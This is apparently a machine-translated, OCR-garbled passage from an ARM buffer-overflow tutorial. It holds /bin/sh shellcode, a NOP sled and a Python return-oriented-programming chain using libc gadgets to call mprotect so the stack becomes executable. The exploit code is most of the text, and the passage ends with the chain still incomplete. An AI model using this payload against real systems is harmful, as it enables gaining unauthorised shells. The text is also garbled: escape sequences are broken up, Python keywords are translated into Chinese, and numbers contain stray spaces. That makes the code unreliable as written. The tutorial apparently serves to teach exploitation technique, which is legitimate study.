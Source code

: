 *![](img/6dd1e9a18797fd6e02344f317863248b.png)*

*普通*

*不错，pc 被“DDDD”覆盖。现在一切都差不多完成了，所以让我们添加外壳代码并获得一个外壳。*

# *最后的利用*

*让我们添加外壳代码。我将使用下面的外壳代码*

> *shell code = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "*

*我还会添加一些 nop 幻灯片来防止我们的漏洞，同时让我们找一个合适的地方来放置外壳代码。为此，我将在漏洞中输入一些垃圾字符*

> *#!/usr/bin/python*
> 
> *shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 10*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(“AAAA”)# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk